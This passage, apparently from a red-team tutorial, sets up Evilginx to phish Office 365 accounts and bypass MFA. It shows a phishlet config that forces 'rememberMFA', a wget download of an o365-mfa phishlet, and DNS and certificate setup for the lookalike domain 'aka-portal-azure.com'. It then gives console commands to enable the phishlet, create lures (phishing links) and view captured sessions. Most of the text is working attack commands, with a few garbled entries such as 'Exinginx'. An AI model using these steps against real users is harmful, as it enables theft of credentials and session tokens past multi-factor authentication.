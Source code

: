 ```
    type: 'post'
  - path: '/common/SAS'
    search: 
      - {key: 'rememberMFA', search: '.*'}
    force:
      - {key: 'rememberMFA', value: 'true'}
    type: 'post'
```
Navigate to the `phishlets` directory and download it.
```
└─$ wget https://raw.githubusercontent.com/faelsfernandes/evilginx3-phishlets/main/o365-mfa.yaml
```

A few phishing subdomains were specified in the phishlet and go ahead and create `A` records for them in the DNS management section of our domain. We also need to allow port 80 inbound on the instance running Evilginx so that `Let's Encrypt` can perform the HTTP challenge and validate the domain.

In the Evilginx console we can configure the hostname that should be used with the phishlet. In our case we can continue to use `aka-portal-azure.com`. Set the hostname and enable the `o365-mfa` phishlet and hide the `example` phishlet. 
```
phishlets hostname o365-mfa aka-portal-azure.com
phishlets enable o365-mfa
phishlets hide example
```
Running `Exinginx` again we see our phishlet and can now create a lure, which are pre-generated phishing links that will be sent out on phishing engagements.

![](bypass-azure-mfa-with-evilginx-5.png)

If we want to check the state of the phishlets at any time, we can do so using the `phishlets` command. Other helpful commands are:
```
Action                              Command
-----------                         -----------
Function                            Clear-Token 
Start Evilginx                      ./evilginx
Close Evilginx                      exit
Get the phising URL                 lures get-url <lure-id>
Get the config                      config
List all phishlets                  phishlets
List all sessions                   sessions
Get details from specific session   sessions <session-id>
Clear screen                        clear
Hide a phishlet                     phishlets hide <phishlet-name>
Unhide a phishlet                   phishlets unhide <phishlet-name>
```

Now let's create a `lure` for the `o365-mfa` phishlet. We can create multiple lures per phishlet if we wanted to (for example we might want different targets to have different redirect URLs).
```
lures create o365-mfa
lures
lures get-url 
```
